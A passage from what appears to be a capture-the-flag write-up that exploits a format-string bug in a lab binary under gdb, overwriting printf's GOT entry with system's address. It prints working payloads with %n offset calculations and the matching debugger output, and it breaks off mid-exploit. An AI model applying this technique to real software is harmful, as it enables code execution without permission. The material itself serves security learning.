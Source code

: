 Oooooooooooh. So basically 0x8049a48 now sais `printf` lives at 0x00000004. Not entirely true though, but we will fix this. Fixing this is quite easy too. Using some python again, we can calculate the amount of bytes we must write to get the memory location we want. We know we want to write to `system`, that lives in memory at 0x40062000. We will split the calculation up into 2 parts, and first write the 0x2000, and then the 0x4006. We can see that we have written 4 bytes already, so to calculate the first part, we will simply subtract 4 from 0x2000 and pad parameter 16 with the amount.

```bash Calculating the first offset
(gdb) shell echo $(python -c 'print 0x2000-0x4')
8188 # output is a decimal value
```

We now pad the format string as required, re-run the program in `gdb`, and inspect 0x08049a48 from the GOT

```bash first padded string
(gdb) run "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "%8188u%16$n")])')#"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "%8188u%16$n")])')#"
H�                                                                                                                                                                                                                 
Breakpoint 1, 0x080486eb in main ()
(gdb) x/x 0x08049a48
0x8049a48 <printf@got.plt>: 0x00002000
(gdb)
```

You will see some whitespace output as a result of the `%8188u`, but inspecting the pointer from GOT reveals that we have the lower part of the memory now set correctly (0x00002000)! :) The upper part of the address is calculated in a similar way, however, we are going to be moving on 2 places in memory to write this value and provide another format string. This means that our lower part of the memory will change as a result, and we will need to compensate for that when we calculate the upper part.

```bash writing upper part of memory and offset change
(gdb) run "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8188u%16$n" + "%17$n")])')#"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8188u%16$n" + "%17$n")])')#"
H�J�                                                                                                                                                                                                              3
Breakpoint 1, 0x080486eb in main ()
(gdb) x/x 0x08049a48
0x8049a48 <printf@got.plt>: 0x20042004
(gdb)
```
